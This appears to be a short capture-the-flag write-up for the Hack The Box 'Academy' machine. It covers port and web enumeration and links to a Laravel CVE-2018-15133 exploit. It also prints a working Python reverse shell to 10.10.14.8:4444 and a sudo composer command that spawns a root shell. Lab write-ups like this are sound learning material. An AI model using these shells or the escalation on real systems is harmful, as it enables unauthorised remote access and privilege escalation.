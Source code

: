 Academy
==========================================
Enumeration
--------------
Let's start with scanning open ports using Nmap.
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Nmap.PNG)
We can see three open ports with SSH, HTTP and Mysqlx services.  

We need to add academy.htb in /etc/host and then we can explore the web page.
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Academy%20web.PNG)
wfuzz -z file,/usr/share/wordlists/wfuzz/general/common.txt -u http://academy.htb/FUZZ.php --hc 404

<https://github.com/aljavier/exploit_laravel_cve-2018-15133>

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script x
